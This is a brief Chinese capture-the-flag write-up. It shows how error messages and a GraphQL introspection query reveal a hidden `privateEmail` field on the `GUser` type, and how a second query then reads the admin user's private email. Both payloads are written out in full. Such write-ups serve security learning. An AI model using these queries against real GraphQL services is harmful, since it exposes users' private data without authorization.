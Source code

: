 # 图之上的信息

经过简单尝试（瞎改原请求的参数，然后看错误信息），可以知道 GraphQL 里面有 `GUser` 类型，其中有 `id`, `username` 两个字段。

查 GraphQL 文档，找到“内省”部分，可以用如下代码获取 `GUser` 的所有字段：

```graphql
{ "query": "{ __type(name: \"GUser\") { name, fields { name }}}"}
```

得到其所有字段：`id`, `username`, `privateEmail`。

再查询 `id` 为 1 的 admin 用户的 `privateEmail` 即可：

```graphql
{ "query": "{ user(id: 1) { id, username, privateEmail }}" }
```
